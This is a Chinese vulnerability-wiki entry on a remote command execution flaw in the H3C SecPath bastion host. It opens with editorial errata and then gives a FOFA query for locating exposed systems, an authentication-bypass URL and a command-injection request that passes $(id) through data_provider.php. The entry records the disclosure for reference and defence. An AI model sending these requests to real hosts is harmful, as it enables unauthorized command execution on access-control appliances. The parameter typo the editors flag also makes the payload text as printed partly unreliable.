


# H3C-SecParh堡垒机-data_provider.php-远程命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：H3C SecPath堡垒机
- 文献类型：简要链式PoC转载
- 版本、权限及部署边界：后台Cookie或gui_detail_view绕过；版本字段实际只是产品名
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与misc207核心文字和两条payload相同，近重复；保留本地图片引用及207原文追溯
2. SecParh错字、version无版本；FOFA增加body2018不是受影响版本证明
3. 认证绕过与认证后命令注入应分实体关联；ds_min40缺等号，响应/补丁范围缺
4. 相对图片Git树存在但未视检，不标仓库缺图

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

```
H3C SecParh堡垒机
```

## 网络测绘

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下


先通过任意用户登录获取Cookie

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```





```plain
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
